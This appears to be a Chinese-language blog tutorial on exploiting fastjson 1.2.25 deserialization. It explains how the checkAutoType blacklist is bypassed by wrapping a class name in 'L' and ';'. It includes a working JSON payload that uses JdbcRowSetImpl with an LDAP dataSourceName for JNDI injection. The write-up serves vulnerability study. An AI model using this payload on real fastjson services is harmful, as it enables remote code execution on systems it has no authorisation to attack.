



# fastjson 1.2.25利用

如果以1.2.24的利用方式进行漏洞利用，会产生以下错误导致利用失败


跟进发现原本的loadclass函数已经改成了checkAutoType函数


checkAutoType函数主要检查autoTypeSupport的值（expectclass默认值是null），如果它的值为false，则会跳过loadclass，并抛出not support异常


并且，在autoTypeSupport为true的情况下，会将类的包名与白名单、黑名单里的包名进行匹配



我们使用的JdbcRowSetImpl利用链就命中了黑名单（com.sun），因此，直接打payload肯定是会失败的。

在autoTypeSupport为true的情况下，要想实现利用有两种办法：使用黑名单之外的利用链，以及特殊构造的payload。

> 如何开启autoTypeSupport？
>
> 第一种办法是在启动时加上启动参数-Dfastjson.parser.autoTypeSupport=true
>
> 第二种是在代码中开启 ParserConfig.getGlobalInstance().setAutoTypeSupport(true)

**先讲讲如何利用特殊构造的payload来触发**

根据黑名单的规则，"com.sun"命中了"com.sun.rowset.JdbcRowSetImpl"，而在1.2.24分析的过程中，我们在loadclass中发现，loadclass函数会对包名进行字符串处理，它会截取"L"和";"中间的字符串



如果我们构造以"L"开头，";"结尾的包名，将会进入if判断进行字符串处理，不会产生报错，并且可以绕过黑名单的匹配，构造payload如下

```json
{
"@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
"dataSourceName":"ldap://127.0.0.1:1389/qtaggr",
"autoCommit":true
}
```



**黑名单绕过**

另一种办法是通过加载不在黑名单中，并且setter能够被我们用来操控的类